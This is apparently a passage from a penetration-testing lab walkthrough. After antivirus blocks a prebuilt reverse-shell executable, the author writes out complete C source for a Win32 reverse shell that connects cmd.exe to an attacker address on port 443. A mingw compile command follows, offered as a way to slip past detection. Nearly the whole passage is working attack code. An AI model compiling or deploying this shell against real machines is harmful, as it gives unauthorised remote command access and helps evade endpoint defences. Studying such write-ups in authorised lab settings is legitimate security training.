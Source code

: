 ```sh
Program 'rsh.exe' failed to run: Operation did not complete successfully because the file contains a virus or potentially unwanted softwareAt line:1 char:1
+ C:\Users\melanie\Documents\rsh.exe
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~.
At line:1 char:1
+ C:\Users\melanie\Documents\rsh.exe
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : ResourceUnavailable: (:) [], ApplicationFailedException
    + FullyQualifiedErrorId : NativeCommandFailed
```

Dang. Still getting detected and blocked. Let's try compiling our own custom reverse shell.

Here's `rsh.c`:

```c
/* Win32 TCP reverse cmd.exe shell */
#include <winsock2.h>
#include <ws2tcpip.h>

#pragma comment(lib, "Ws2_32.lib")

// CHANGE THESE
#define TARGET_IP   "10.10.14.8"
#define TARGET_PORT 443

void main(void) {
  SOCKET s;
  WSADATA wsa;
  STARTUPINFO si;
  struct sockaddr_in sa;
  PROCESS_INFORMATION pi;

  WSAStartup(MAKEWORD(2,2), &wsa);
  s = WSASocketA(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
  sa.sin_family = AF_INET;
  sa.sin_addr.s_addr = inet_addr(TARGET_IP);
  sa.sin_port = htons(TARGET_PORT);
  WSAConnect(s, (struct sockaddr *)&sa, sizeof(sa), NULL, NULL, NULL, NULL);
  SecureZeroMemory(&si, sizeof(si));
  si.cb = sizeof(si);
  si.dwFlags = STARTF_USESTDHANDLES;
  si.hStdInput = (HANDLE)s;
  si.hStdOutput = (HANDLE)s;
  si.hStdError = (HANDLE)s;
  CreateProcessA(NULL, "cmd", NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi);
}
```

And compile with this command:

```sh
❯ i686-w64-mingw32-gcc rsh.c -o rsh.exe -s -lws2_32
```
